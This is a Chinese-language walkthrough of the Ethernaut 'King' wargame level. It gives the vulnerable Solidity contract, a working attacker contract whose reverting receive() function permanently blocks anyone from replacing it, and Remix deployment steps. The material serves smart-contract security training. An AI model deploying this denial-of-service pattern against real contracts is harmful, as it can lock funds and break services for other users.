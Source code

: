 # level9 King

## 1. 问题

要求你成为`King`合约的owner，且别的合约无法替代你成为owner。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## 2. 解法

整体思路分为两步：

1. 首先向 `King` 合约转入 ETH，触发其 `receive` 函数逻辑执行，成为 `owner`。
2. 通过破坏 `receive()` 的正常执行，确保其他合约或 EOA 无法成功调用 `King` 的 `receive` 函数，从而避免被取代为 `owner`。

为了实现这个功能，我们将合约设计如下：

```solidity
contract UnchangedKing {
    address private king;

    constructor(address _k) {
        king = _k;
    }

    function overtake() external payable {
        // console.log("start overtake, msg.value:", msg.value);
        // console.log("start overtake, gasleft  :", gasleft());
        // case1: 可行
        (bool success,) = king.call{value: 0.001 ether}("");
        // 这样会出错，gas是为了后面支付合约执行使用的, 真实值会远大于 msg.value, 而且不是一个维度的东西
        // (bool success, ) = king.call{value: gasleft() * 19 /20}("");
        require(success, "send eth failed");
    }

    receive() external payable {
        revert("No direct ETH transfers allowed");
        // 下面这种写法是不行的。因为owner可以transfer(0)给当前合约，导致下面这个判断不生效
        // require(msg.value < 1, "reject be overtaken!");
    }
}
```

1. 代码部署到remix，编译

2. 部署，参数填上合约地址 

> [!TIP]
> 注意，合约初始化时的参数应填写 `instance` 的地址，而非 `level` 的地址。

3. 先查询下浏览器，看下合约目前有多少eth, 发现是1 finney

4. 调用overtake函数，就传入1 finney 

5. submit instance，通过！


## 3. 补充阅读：调试

起初，我们尝试了 `require(msg.value < 1, "reject be overtaken!");` 的写法，但发现无法通过。因此，我们编写了一个调试程序 [Level9_localTest.t.sol](../../test/level9/Level9_localTest.t.sol)。你可以在项目根目录执行以下命令进行调试：

```bash
forge test -vvvv --match-contract Level9LocalTest
```

| [⬅️ level8 Vault](../level8_vault/README.md) | [level10 Reentrancy ➡️](../level10_reentrancy/README.md) |
|:------------------------------|--------------------------:|